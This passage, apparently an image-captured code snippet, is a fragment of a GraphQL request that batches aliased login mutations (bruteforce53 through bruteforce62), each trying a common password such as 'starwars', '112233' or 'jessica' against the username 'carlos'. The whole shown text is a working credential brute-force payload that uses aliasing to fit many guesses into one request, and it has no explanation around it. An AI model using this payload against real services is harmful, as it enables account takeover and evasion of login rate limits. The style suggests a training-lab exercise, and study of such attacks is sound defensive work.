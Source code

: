 ```plain
    }


bruteforce53:login(input:{password: "daniel", username: "carlos"}) {
        token
        success
    }


bruteforce54:login(input:{password: "starwars", username: "carlos"}) {
        token
        success
    }


bruteforce55:login(input:{password: "klaster", username: "carlos"}) {
        token
        success
    }


bruteforce56:login(input:{password: "112233", username: "carlos"}) {
        token
        success
    }


bruteforce57:login(input:{password: "george", username: "carlos"}) {
        token
        success
    }


bruteforce58:login(input:{password: "computer", username: "carlos"}) {
        token
        success
    }


bruteforce59:login(input:{password: "michelle", username: "carlos"}) {
        token
        success
    }


bruteforce60:login(input:{password: "jessica", username: "carlos"}) {
        token
        success
    }


bruteforce61:login(input:{password: "pepper", username: "carlos"}) {
        token
        success
    }


bruteforce62:login(input:{password: "1111", username: "carlos"}) {
        token
        success
    }


```